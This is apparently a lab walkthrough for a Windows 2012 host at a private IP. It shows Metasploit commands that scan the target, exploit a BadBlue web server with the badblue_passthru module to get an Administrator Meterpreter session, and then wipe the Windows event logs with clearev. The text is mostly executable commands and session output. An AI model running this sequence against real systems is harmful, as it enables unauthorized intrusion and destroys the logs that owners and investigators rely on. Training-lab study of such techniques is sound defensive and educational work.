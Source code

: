 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.26.66
setg RHOST 10.2.26.66
workspace -a Clearenv
db_nmap -sV 10.2.26.66
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Clearing Windows Event Logs

❗ *Elevated privileges are necessary to clean the Event logs.*

- From the `Meterpreter` session clear the event log

```bash
clearev
```

![](.gitbook/assets/image-20230419233932312.png)
